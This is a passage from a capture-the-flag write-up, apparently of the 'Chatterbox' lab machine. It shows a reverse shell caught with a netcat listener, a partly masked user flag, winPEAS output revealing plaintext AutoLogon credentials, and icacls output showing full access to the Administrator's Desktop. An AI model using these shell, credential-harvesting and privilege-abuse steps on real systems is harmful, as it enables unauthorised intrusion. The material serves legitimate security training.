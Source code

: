 On our listener, we get a shell as `alfred`.

```bash
$ rlwrap nc -lvnp 1337                                
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
chatterbox\alfred

C:\Windows\system32>
```

# user.txt

The user flag is in `alfred`'s Desktop.

```
type user.txt
32d8XXXXXXXXXXXXXXXXXXXXXXXXXXXX

C:\Users\Alfred\Desktop>
```

# Enumeration (2)

After transferring `winpeasany.exe` over from my machine, we see some interesting things.

```
C:\temp> winpeasany.exe
...
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  Alfred
    DefaultPassword               :  Welcome1!

  [+] Home folders found
    C:\Users\Administrator : Alfred [AllAccess]
    C:\Users\Alfred : Alfred [AllAccess]
... 
```

## Full Access on `Administrator`'s Desktop

Thats weird, we see that `Alfred` has `AllAccess` on `Administrator`'s home folder!. Digging deeper we see that `Alfred` also has `FullAccess` on `Administrator`'s Desktop.

```
C:\Users\Administrator\Desktop>icacls C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop Everyone:(F)
                               NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                               CHATTERBOX\Administrator:(I)(OI)(CI)(F)
                               BUILTIN\Administrators:(I)(OI)(CI)(F)
                               CHATTERBOX\Alfred:(I)(OI)(CI)(F)
```

